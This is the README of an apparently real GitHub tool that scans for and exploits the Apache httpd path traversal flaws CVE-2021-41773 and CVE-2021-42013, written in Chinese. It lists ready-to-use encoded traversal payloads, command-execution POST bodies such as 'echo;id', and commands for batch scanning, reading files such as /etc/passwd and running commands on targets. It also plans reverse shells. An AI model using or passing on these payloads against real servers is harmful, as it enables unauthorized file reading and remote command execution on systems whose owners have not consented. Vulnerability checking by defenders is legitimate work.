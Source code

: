 # apache httpd path traversal checker


## 0x00 概述

20211005，网上曝出apache httpd 2.4.49的目录穿越漏洞（cve-2021-41773），可造成任意文件读取（穿越的目录允许被访问，比如配置了<Directory />Require all granted</Directory> 默认不允许）或命令执行（rce需开启cgi，默认并不包含cgi模块）

20211008，又出了2.4.50的目录穿越（cve-2021-42013），是绕过了cve-2021-41773的修复。



## 0x01 快速开始

python3运行

使用帮助：python3 apache-httpd-path-traversal.py -h

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-00.png)


单url检测：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80"

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-01.png)

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-02.png)


批量检测：python3 apache-httpd-path-traversal.py -f urls.txt -t 30 -s 3

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-03.png)


文件读取：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /icons --readfile

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-04.png)


命令执行：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /cgi-bin --rce

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-05.png)



## 0x02 工具简介

使用urllib.request发http数据包

检测漏洞存在的依据是读取/etc/passwd判断返回数据是否含有”root:”字符串（因为大部分都是linux，所以暂时忽略检测windows）

多线程，可选择超时时间，以提高效率。

可选公共目录，rce的shell，以提供灵活性。

采用可能的公共目录列表，提高命中率。
commonDirList = ['/cgi-bin', '/icons', '/assets', '/uploads', '/img', '/image']

注意：有时候文件读取是利用icons目录，而rce要用cgi-bin目录，具体情况具体分析。

采用7种poc和2种rce的post data格式：

#cve-2021-41773
poc0 = "/.%2e/%2e%2e/%2e%2e/%2e%2e"

poc1 = "/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e"


#cve-2021-42013
poc2 = "/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65"

poc3 = "/.%%32%65/.%%32%65/.%%32%65/.%%32%65"

poc4 = "/.%%32e/.%%32e/.%%32e/.%%32e"

poc5 = "/.%2%65/.%2%65/.%2%65/.%2%65"

#rce data
rce0 = "echo;id"

rce1 = "echo Content-Type: text/plain; echo; id"

//rce的post方法改为get方法好像也行。
//payload要根据目标的apache路径层数变化跳出，一般4层够了。
//要有一个apache存在的目录，比如icons/或cgi-bin/



## 0x02 TODO

1.可能会增加对windows系统的检测。
2.可能会增加反弹shell等进一步利用。



## 0x03 反馈

[issus](https://github.com/theLSA/apache-httpd-path-traversal-checker/issues)

gmail：[lsasguge196@gmail.com](mailto:lsasguge196@gmail.com)

qq：[2894400469@qq.com](mailto:2894400469@qq.com)